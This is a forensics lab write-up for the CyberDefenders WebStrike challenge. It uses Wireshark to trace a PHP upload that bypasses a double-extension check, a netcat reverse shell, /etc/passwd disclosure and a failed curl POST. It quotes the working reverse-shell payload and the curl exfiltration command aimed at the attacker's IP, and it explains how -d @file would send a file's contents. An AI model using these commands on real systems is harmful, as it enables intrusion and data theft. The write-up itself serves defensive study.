





# WebStrike — Investigating a PHP web-shell compromise with Wireshark

**Lab:** [CyberDefenders — WebStrike](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)  
**Category:** Network forensics  
**Evidence:** `WebStrike.pcap`  
**Tool:** Wireshark

## Overview

WebStrike captures an intrusion against the review section of `shoporoma.com`. An attacker tried to upload a PHP script, changed its filename after the first attempt was rejected, and subsequently accessed the uploaded file. The script launched a reverse shell from the web server to the attacker's system. Through that shell, the attacker enumerated the host and read `/etc/passwd`, then attempted a separate HTTP transfer of the same file.

The investigation proceeds through the HTTP requests and responses, the PHP payload, the TCP connection it created, and the commands observed in that connection. The final two streams are especially revealing: `/etc/passwd` was disclosed through the interactive shell, whereas the later HTTP POST sent only the literal file path.

## 1. Identify the two systems and the HTTP client

Start with **Statistics → Endpoints → IPv4** to see which IP addresses occur in the capture. Then open **Statistics → Conversations → TCP** to examine the connections between them. The HTTP traffic identifies two principal systems:

| System | Address | Role established by traffic |
|---|---|---|
| HTTP client | `117.11.88.124` | Sends the suspicious file-upload requests and later receives the reverse shell |
| Web server | `24.49.63.79` | Hosts `shoporoma.com` and processes the uploads |

A host's role is inferred from its *behaviour*, not from whether its address appears under **Source**, **Destination**, **Address A**, or **Address B**. In an HTTP upload the attacker is the source. In the later reverse connection, the compromised server is the source because it initiates a connection to the attacker.

To isolate HTTP GET requests:

```wireshark
http.request.method == "GET"
```

To look at HTTP requests from the suspicious client:

```wireshark
ip.src == 117.11.88.124 && http.request
```

One of the request headers reads:

```http
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
```

In Wireshark, select the request and expand **Hypertext Transfer Protocol → User-Agent**. The same value also appears in the HTTP-stream transcripts examined below.

### Relevant theory — User-Agent and IP geolocation

A **User-Agent** is an HTTP request header supplied by the client. Here it claims Firefox 115 on 64-bit Linux. It can help associate requests, but it is trivial to alter; it does not verify the client's operating system or identify an individual.

An IP geolocation lookup of `117.11.88.124` gives **Tianjin, China** as the reported city. Geolocation databases associate IP ranges with approximate locations; a VPN, proxy, hosting provider or compromised intermediary can separate that location from the person operating the attack. The observation is therefore about the **IP address**, not the attacker's physical whereabouts.

## 2. Examine the rejected and accepted file uploads

Filter for HTTP POST requests:

```wireshark
http.request.method == "POST"
```

Two requests to the review-upload endpoint stand out:

| Packet | TCP stream | Submitted filename | Application response |
|---|---:|---|---|
| **53** | **4** | `image.php` | `Invalid file format.` |
| **63** | **5** | `image.jpg.php` | `File uploaded successfully` |

For each packet, select **Right-click → Follow → HTTP Stream** and set **Show data as → ASCII**. This reconstructs the request and response instead of leaving the analyst to interpret isolated packet payloads.

The first upload contains:

```http
POST /reviews/upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------240702681933131672661702936221

Content-Disposition: form-data; name="uploadedFile"; filename="image.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

The server answers:

```http
HTTP/1.1 200 OK

Invalid file format.
```

The second upload has the same PHP code, but the filename becomes `image.jpg.php`. Its response is:

```http
HTTP/1.1 200 OK

File uploaded successfully
```


*TCP stream 4: the uploaded `image.php` and the application-level rejection.*


*TCP stream 5: the renamed PHP file and the application's success message.*

### Relevant theory — HTTP multipart uploads

An HTML form carrying a file often uses `multipart/form-data`. The body is divided into separate parts by a **boundary** defined in the `Content-Type` header. Each part has metadata identifying the form field; file parts can also specify a filename and declared content type.

In these requests, the ordinary fields `name`, `email`, and `review` accompany the file field `uploadedFile`. The filename arrives in the multipart **Content-Disposition** header, while the file's PHP source appears in that part's body.

Three elements have different meanings:

| Element | Meaning in this case |
|---|---|
| `POST /reviews/upload.php` | The **upload-processing endpoint** |
| `filename="image.jpg.php"` | The name supplied for the uploaded file |
| `Content-Type: application/x-php` | A **client-declared** media type; not proof of what the server validates |

The `200 OK` response code only establishes that an HTTP response was successfully produced. Both requests returned `200 OK`, although the **application response body** rejected one and accepted the other. A successful upload message is also distinct from proof that the file executed.

### Relevant theory — Double-extension validation bypass

The change from `image.php` to `image.jpg.php` is consistent with a weak file-extension check. An application might reject a direct `.php` extension but mistakenly accept a filename containing `.jpg`, even when its final extension is still `.php`.

The capture shows the different outcomes, **not** the application's underlying validation code. What is established is narrower: adding `.jpg` changed the application's decision while the malicious PHP payload stayed the same.

On a server configured to execute PHP in the upload directory, a file ending in `.php` may execute when requested over HTTP. Safe upload handling requires more than a filename check: untrusted files should be validated appropriately, given controlled names and stored where they cannot execute as scripts.

<details>
<summary><strong>Full HTTP transcript — TCP stream 4 (rejected upload)</strong></summary>

```http
POST /reviews/upload.php HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------240702681933131672661702936221
Content-Length: 688
Origin: http://shoporoma.com
Connection: keep-alive
Referer: http://shoporoma.com/reviews/
Upgrade-Insecure-Requests: 1

-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="name"

asd
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="email"

asd@asd.com
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="review"

asd
-----------------------------240702681933131672661702936221
Content-Disposition: form-data; name="uploadedFile"; filename="image.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------240702681933131672661702936221--
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:43:57 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 20
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Invalid file format.
```

</details>

<details>
<summary><strong>Full HTTP transcript — TCP stream 5 (accepted upload)</strong></summary>

```http
POST /reviews/upload.php HTTP/1.1
Host: shoporoma.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------26176590812480906864292095114
Content-Length: 687
Origin: http://shoporoma.com
Connection: keep-alive
Referer: http://shoporoma.com/reviews/
Upgrade-Insecure-Requests: 1

-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="name"

asd
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="email"

asd@asd.com
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="review"

asd
-----------------------------26176590812480906864292095114
Content-Disposition: form-data; name="uploadedFile"; filename="image.jpg.php"
Content-Type: application/x-php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>

-----------------------------26176590812480906864292095114--
HTTP/1.1 200 OK
Date: Thu, 30 Nov 2023 18:44:19 GMT
Server: Apache/2.4.52 (Ubuntu)
Content-Length: 26
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

File uploaded successfully
```

</details>

## 3. Find where the uploaded file was accessed

After identifying the filename, search for requests referencing it:

```wireshark
http.request.uri contains "image.jpg.php"
```

Packet **138**, in **TCP stream 12**, contains:

```http
GET /reviews/uploads/image.jpg.php HTTP/1.1
Host: shoporoma.com
```



*TCP stream 12: an HTTP GET request to the uploaded file. No HTTP response is present in the followed stream.*

This identifies **`/reviews/uploads/`** as the URL directory where the attacker attempted to access the uploaded file. A GET request on its own does not prove a resource exists: a client can request any path. Here the inference becomes stronger because the application had reported accepting a file with the same name, and the next observed activity is the matching reverse-shell connection.

The reverse-shell session later reports:

```console
$ pwd
/var/www/html/reviews/uploads
```

This gives an additional filesystem observation: the shell's current working directory is `/var/www/html/reviews/uploads`. A **URL path** such as `/reviews/uploads/` and a **filesystem path** such as `/var/www/html/reviews/uploads` are different concepts. Web servers map URLs onto storage locations through their configuration; one cannot always derive the latter from the former.

### Relevant theory — Requests, responses and execution

A `GET` requests a resource. A `200 OK` response can show that the server returned something; a `404` indicates that the requested resource was not found; a redirect points to another location. None of these status codes, alone, necessarily proves PHP code execution.

In TCP stream 12, **no HTTP response is visible**. That does not establish failure. The stronger execution evidence comes from the outbound connection immediately after the GET and the shell commands observed within it.

## 4. Decode the PHP reverse-shell payload

The uploaded file's content is the most important lead for the next stage:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>
```

`system()` is a PHP function that executes an operating-system command. The command string then uses Linux shell syntax to connect an interactive shell to a remote TCP socket.

| Part | Function |
|---|---|
| `rm /tmp/f` | Removes an earlier pipe file, if present |
| `mkfifo /tmp/f` | Creates a named pipe (*FIFO*) at `/tmp/f` |
| `cat /tmp/f` | Reads commands arriving through the pipe |
| `/bin/sh -i` | Starts an interactive shell |
| `2>&1` | Merges standard error into standard output |
| `nc 117.11.88.124 8080` | Opens a network connection to that address and port |
| `>/tmp/f` | Writes data received from the remote socket back into the named pipe |

The pipe and redirections form a loop: instructions arriving over the network are supplied to the shell; output and errors can travel back through the same connection. The server **calls out** to the attacker's machine, rather than waiting for the attacker to open an inbound shell connection.

The decisive network indicator is:

```text
nc 117.11.88.124 8080
   └── destination IP  └── destination TCP port
```

The intended remote port is **8080**. That port is an argument to `nc`, not the PHP server's HTTP port and not the source port used by the victim's operating system.

### Relevant theory — Named pipes, redirection and reverse shells

A **named pipe** is a filesystem object through which processes exchange bytes. Unlike a normal stored file, it is used as a communication channel. Shell syntax such as `|` passes one command's output into another command's input. `2>&1` redirects descriptor 2 (**stderr**) to descriptor 1 (**stdout**) so that error messages can accompany ordinary output.

A **reverse shell** provides remote command execution over a connection initiated by the compromised machine. A shell's prompt or banner is useful evidence, but commands and their returned output are stronger proof that the remote party could execute instructions.

## 5. Find the reverse-shell TCP connection

The PHP code gives a precise indicator: a connection to `117.11.88.124` on port `8080`. Search for it without assuming a stream number:

```wireshark
ip.dst == 117.11.88.124 && tcp.dstport == 8080
```

Next open **Statistics → Conversations → TCP** and locate the matching connection. The row contains:

| Field | Value |
|---|---|
| Address A | `24.49.63.79` |
| Port A | `54448` |
| Address B | `117.11.88.124` |
| Port B | `8080` |
| TCP stream | **13** |
| Packets | **162** |
| Total bytes shown | **14,233** |
| Relative start | **84.153968 s** |



*The victim-to-attacker connection on destination port 8080 is listed as TCP stream 13.*

### Relevant theory — Source ports, destination ports and stream IDs

The connection is written as:

```text
24.49.63.79:54448  →  117.11.88.124:8080
victim IP : source port    attacker IP : destination port
```

The web server uses **54448** as a temporary source port for this connection. The command inside the PHP file specifies **8080** as the destination port. Together with the two IP addresses, those ports identify the TCP conversation. Wireshark labels it **stream 13**; a stream number is a local capture index, not a network port.

**Address A and Address B do not inherently mean source and destination.** The initiation direction can be checked by locating the first TCP packet with the SYN flag set:

```wireshark
tcp.stream == 13 && tcp.flags.syn == 1 && tcp.flags.ack == 0
```

A SYN from `24.49.63.79:54448` to `117.11.88.124:8080`, followed by a SYN/ACK and ACK, establishes that the server initiated and completed the TCP handshake. To inspect the entire connection, including packets sent back by the attacker, use:

```wireshark
tcp.stream == 13
```

A directional filter such as `ip.src == 24.49.63.79 && tcp.srcport == 54448` would omit replies. Filtering on **`tcp.stream`** is more suitable once the connection has been identified.

The GET request for `image.jpg.php` occurs at **84.150547 s** in the capture; TCP stream 13 begins at **84.153968 s**, approximately **3.4 ms later**. The timing, matching destination and subsequent shell activity connect this session to execution of the uploaded PHP payload.

### Changing Wireshark's time display

Under **View → Time Display Format**, select **Date and Time of Day** or **UTC Date and Time of Day** for timestamps, or **Seconds Since Beginning of Capture** to compare intervals. Relative timestamps are useful for correlating the GET with the outbound callback; absolute UTC timestamps are easier to compare with external logs.

## 6. Examine the interactive shell and the disclosed file

Filter on `tcp.stream == 13`, then **Right-click → Follow → TCP Stream** and choose **ASCII**. The reconstructed conversation contains:

```console
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic ... x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
```



*The shell returns the Linux account records after `cat /etc/passwd`.*

`whoami` identifies the shell's effective account as **`www-data`**, commonly used by the web server. The error about being unable to access a TTY indicates an interactive shell without a normal terminal; it does not negate the observed ability to run commands. `uname -a` reports kernel information, `pwd` shows the current directory, and `ls /home` enumerates a home-directory entry.

### Relevant theory — `/etc/passwd` and data disclosure

`/etc/passwd` is a Linux account database. A typical line uses colon-separated fields:

```text
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
   1   2   3    4      5             6          7
```

| Field | Meaning |
|---|---|
| 1 | Username |
| 2 | Password placeholder; password hashes are usually stored in `/etc/shadow` |
| 3 | Numeric user ID (UID) |
| 4 | Primary group ID (GID) |
| 5 | Account description (GECOS) |
| 6 | Home directory |
| 7 | Login shell |

The file is ordinarily world-readable, but its account information can aid enumeration and targeting. It should not be described as a file of plaintext passwords.

The key observation is **not merely** that `cat /etc/passwd` was entered. The resulting account entries are visible inside the **network TCP stream between the compromised server and the attacker**. The file's content was therefore transmitted over the reverse-shell channel as command output. This establishes disclosure even without a dedicated upload command. It does not establish whether the attacker saved a local copy.

The complete reconstructed text is preserved in [`evidence/tcp-stream-13-reverse-shell.txt`](evidence/tcp-stream-13-reverse-shell.txt). The recorded stream includes a missing-segment marker near the end; that affects completeness of the later output but not the visible account records.

<details>
<summary><strong>Full TCP stream 13 — shell session and /etc/passwd output</strong></summary>

```text
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ uname -a
Linux ubuntu-virtual-machine 6.2.0-37-generic #38~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Thu Nov  2 18:01:13 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www/html/reviews/uploads
$ ls /home
ubuntu
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:113:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:116::/run/uuidd:/usr/sbin/nologin
systemd-oom:x:108:117:systemd Userspace OOM Killer,,,:/run/systemd:/usr/sbin/nologin
tcpdump:x:109:118::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
avahi:x:114:121:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:115:122:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
rtkit:x:116:123:RealtimeKit,,,:/proc:/usr/sbin/nologin
whoopsie:x:117:124::/nonexistent:/bin/false
sssd:x:118:125:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
fwupd-refresh:x:120:126:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
nm-openvpn:x:121:127:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
saned:x:122:129::/var/lib/saned:/usr/sbin/nologin
colord:x:123:130:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:124:131::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:125:132:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:126:65534::/run/gnome-initial-setup/:/bin/false
hplip:x:127:7:HPLIP system user,,,:/run/hplip:/bin/false
gdm:x:128:134:Gnome Display Manager:/var/lib/gdm3:/bin/false
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
$ curl -X POST -d /etc/passwd http://117.11.88.124:443/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   368  100   357  100    11  56774   17[393 bytes missing in capture file].$
```

</details>

## 7. Inspect the separate HTTP POST attempt

After displaying `/etc/passwd`, the attacker typed:

```bash
curl -X POST -d /etc/passwd http://117.11.88.124:443/
```

The command identifies another connection to the attacker, this time to **port 443**. To locate the corresponding packets from the command itself, first filter on its network destination:

```wireshark
ip.dst == 117.11.88.124 && tcp.dstport == 443
```

**Statistics → Conversations → TCP** identifies this connection:

```text
24.49.63.79:54438  →  117.11.88.124:443
           stream 14
```

Here **54438** is another temporary source port selected by the victim; **443** is the destination port specified by curl. The client-side SYN is visible in packet **183**, and the HTTP POST in packet **267**. Follow the conversation with:

```wireshark
tcp.stream == 14
```



The reconstructed HTTP request shows:

```http
POST / HTTP/1.1
Host: 117.11.88.124:443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

/etc/passwd
```



**`Content-Length: 11` matches the eleven ASCII bytes in `/etc/passwd`.** No account records appear in the POST body. It transferred the literal pathname, not the file's contents.

The receiving server responded:

```http
HTTP/1.0 501 Unsupported method ('POST')
Server: SimpleHTTP/0.6 Python/3.11.6
Content-Length: 357
```


The connection and request occurred, but the receiving HTTP application rejected the POST method. Port `443` commonly carries HTTPS; this exchange is nevertheless **plain HTTP**, as indicated by both the `http://` URL in the command and the readable HTTP headers in the capture. Port numbers do not, by themselves, determine the application protocol.

### Relevant theory — Reading a file with curl versus sending a filename

The difference is the `@` character in curl's `--data` (`-d`) option:

| curl argument | What it sends |
|---|---|
| `-d /etc/passwd` | The literal eleven-character string `/etc/passwd` |
| `-d @/etc/passwd` | Reads the file and sends its contents as request data |

For arbitrary file bytes, curl also provides `--data-binary @filename` to avoid transformations applied by `--data` when reading a file. The presence of `-X POST` selects the request method explicitly; the `-d` option itself normally implies POST.

This produces two distinct findings:

1. **Reverse shell, stream 13:** account records from `/etc/passwd` were returned to the attacker. **Data disclosure occurred.**
2. **HTTP POST, stream 14:** the body was only `/etc/passwd` (11 bytes), and the receiving server returned `501`. **This request did not transfer the file contents.**

The file was already exposed through the command channel before the failed HTTP transfer. The distinction depends on examining the bytes carried by each connection, rather than treating the word `POST` or the presence of a filename as proof of exfiltration.

<details>
<summary><strong>TCP stream 14 — HTTP request and server response</strong></summary>

```http
POST / HTTP/1.1
Host: 117.11.88.124:443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 11
Content-Type: application/x-www-form-urlencoded

/etc/passwd
HTTP/1.0 501 Unsupported method ('POST')
Server: SimpleHTTP/0.6 Python/3.11.6
Date: Thu, 30 Nov 2023 18:46:39 GMT
Connection: close
Content-Type: text/html;charset=utf-8
Content-Length: 357

[HTTP response body omitted; response headers shown.]
```

</details>

## 8. Reconstruct the attack sequence

| Capture evidence | Observation | Interpretation |
|---|---|---|
| Packet **53**, stream **4** | POST uploads `image.php`; response says `Invalid file format.` | Initial upload rejected |
| Packet **63**, stream **5** | POST uploads `image.jpg.php`; response says `File uploaded successfully` | Filename change bypasses the observed rejection |
| Packet **138**, stream **12** | GET `/reviews/uploads/image.jpg.php` | Uploaded script requested |
| Stream **13**, beginning **84.153968 s** | Victim connects to attacker on port **8080** | Reverse connection matches uploaded payload |
| Stream **13** | Shell runs as `www-data`; `pwd` returns `/var/www/html/reviews/uploads` | Remote command execution and working directory observed |
| Stream **13** | `cat /etc/passwd` returns account records | File contents transmitted through reverse shell |
| Packet **267**, stream **14** | POST body `/etc/passwd`, length **11**; server returns **501** | Separate attempt did not upload file contents |

The intrusion progressed from a file-upload validation failure to PHP execution and an interactive reverse shell. `/etc/passwd` left the web server as command output. The later HTTP POST was unsuccessful as a file-content transfer because it sent the path string rather than reading the file, and the receiving application did not support POST.

### Investigation technique summary

| Investigative need | Wireshark method |
|---|---|
| List systems | **Statistics → Endpoints → IPv4** |
| Examine communicating pairs and ports | **Statistics → Conversations → TCP** |
| Find file-upload attempts | `http.request.method == "POST"` |
| Reconstruct an upload and its response | **Follow → HTTP Stream** |
| Find requests for a named upload | `http.request.uri contains "image.jpg.php"` |
| Find the destination specified by the PHP payload | `ip.dst == 117.11.88.124 && tcp.dstport == 8080` |
| Read the reverse shell | `tcp.stream == 13` → **Follow → TCP Stream** |
| Verify the separate curl transfer | `ip.dst == 117.11.88.124 && tcp.dstport == 443` → follow matching stream |
| View both directions of a connection | Filter on `tcp.stream`, not only a source IP or source port |

The raw Follow Stream texts are available under [`evidence/`](evidence/), alongside the screenshots embedded in this walkthrough.

## References

- [CyberDefenders — WebStrike](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)
- [Wireshark User's Guide — Following protocol streams](https://www.wireshark.org/docs/wsug_html_chunked/ChAdvFollowStreamSection.html)
- [curl manual — `--data` and `--data-binary`](https://curl.se/docs/manpage.html)
